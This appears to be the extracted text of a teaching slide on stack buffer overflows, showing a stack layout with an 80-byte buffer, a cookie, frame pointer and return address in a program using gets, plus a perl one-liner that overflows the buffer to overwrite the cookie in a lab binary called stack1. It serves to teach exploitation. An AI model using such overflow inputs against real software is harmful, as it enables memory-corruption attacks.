

Low address

hash
user
Frame pointer
Return address
Main:
	  cookie
	  buf[80]
	  printf
	  gets
SP

buf

ABCD
FP

IP

High address
perl –e ‘print “A”x80; print “DCBA”’ | ./stack1